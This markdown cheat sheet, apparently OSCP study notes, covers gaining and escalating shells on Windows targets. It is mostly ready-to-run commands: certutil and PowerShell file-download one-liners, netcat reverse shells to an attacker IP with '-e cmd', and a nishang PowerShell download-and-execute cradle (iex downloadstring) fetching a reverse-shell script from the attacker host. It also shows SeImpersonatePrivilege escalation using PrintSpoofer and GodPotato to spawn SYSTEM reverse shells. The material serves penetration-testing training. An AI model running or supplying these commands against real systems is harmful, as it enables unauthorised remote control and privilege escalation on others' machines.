

# Windows

## Reverse Shell

### What is a Reverse Shell and Bind Shell?
There are two different ways to get a shell on an windows target machine: `Reverse Shell` and `Bind Shell`

**Bind Shell**
- Attacker(Client) --> Target(Server)
- Target openes a port and is forced to listen to that port
- Problematic because of NAT and routing (port forwarding needed `Router --> Target`) and can be blocked

**Reverse Shell**
- Attacker(Server) <-- Target(Client)
- Target listening for server
- No problems because many Applications are using the client/server principle

### File Transfer

#### CMD.exe
```
certutil -urlcache -split -f <URL> <OUTPUT_FILE>
```
Certutil is an application made for cert usecases and not for file transfer and because of the fact so many abusing it **WINDOWS DEFENDER** will block filetransfer with this app. 

#### PowerShell.exe
```
Invoke-WebReqeust -uri <URL> -Outfile <OUTPUT_FILE>
iwr -uri <URL> -Outfile <OUTPUT_FILE>
```

### Spawning a Shell

#### CMD.exe
First download [NetCat for Windows](https://github.com/int0x33/nc.exe)
```
iwr -uri "https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe" -Outfile nc64.exe
```

Then setup a listener with `netcat` on the Attacker Machine
```
netcat -lvnp 4444
```

And afterwards just run the `netcat` script on the Target Machine
```
C:\Users\Quickemu\Desktop\nc64.exe <ATTACKER_IP> <PORT> -e cmd
```

#### PowerShell.exe

##### Invoke PowerShell TCP
You can download the Invoke PowerShell TCP [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

First setup the script:
```
echo "Invoke-PowerShellTcp -Reverse -IPAddress <ATTACKER_IP> -Port <PORT>" >> Invoke-PowerShellTcp.ps1
```

Set up a Python Http Server on your Attacker Machine
```
python3 -m http.server <UPLOAD_PORT>
```

Then setup a listener on your Attacker Machine with `netcat`
```
netcat -lvnp <PORT>
```

Download and execute the Revershell Script on the Target Machine
```cmd
powershell -c "iex(new-object net.webclient).downloadstring(\"http://<ATTACKER_IP>:<PORT>/Invoke-PowerShellTcp.ps1\")"
```
```ps
iex(new-object net.webclient).downloadstring("http://<ATTACKER_IP>:<UPLOAD_PORT>/Invoke-PowerShellTcp.ps1")
```

##### Python Base64 ReverseShell Generator
```
base64-revershell-generator.py <ATTACKER_IP> <PORT>
```

just copy, paste in `RCE`, make a port listener with `netcat` and then execute the code in `RCE`

## Privilege Escalation

### SeImpersonatePrivilege
First check if you have the right privilege enabled


For OSCP you can choose between the following two Exploits:
- PrintSpoofer
- GodPotato

#### Setup
First setup a listener on the Attacker Machine with `netcat`
```
netcat -lnvp 4444
```

Then download `netcat` in the Target Machine
```
iwr -uri "https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe" -Outfile nc64.exe
```

`systeminfo` to check machine 32/64

#### PrintSpoofer
Download:
```
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe" -Outfile PrintSpoofer32.exe
iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe" -Outfile PrintSpoofer64.exe
```

Exploit:
```
.\PrintSpoofer64.exe -c "C:\Users\<USER>\Desktop\nc64.exe <ATTACKER_IP> <PORT>"
.\PrintSpoofer64.exe -c "C:\Users\privesc_user\Desktop\nc64.exe 192.168.122.1 4444"
```

#### GodPotato .NET2 / .NET3.5 / .NET4
**Download Links:**
- **.NET2**: https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe
- **.NET3.5**: https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe
- **.NET4**: https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe

Download with right link:
```
iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe" -Outfile GodPotato-NET2.exe

iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe" -Outfile GodPotato-NET35.exe

iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe" -Outfile GodPotato-NET4.exe
```

Then exploit:
```
.\GodPotato-NET2.exe -cmd "C:\Users\<USER>\Desktop\nc64.exe <ATTACKER_IP> <PORT> -e cmd"
.\GodPotato-NET2.exe -cmd "C:\Users\privesc_user\Desktop\nc64.exe 192.168.122.1 4444 -e cmd"
```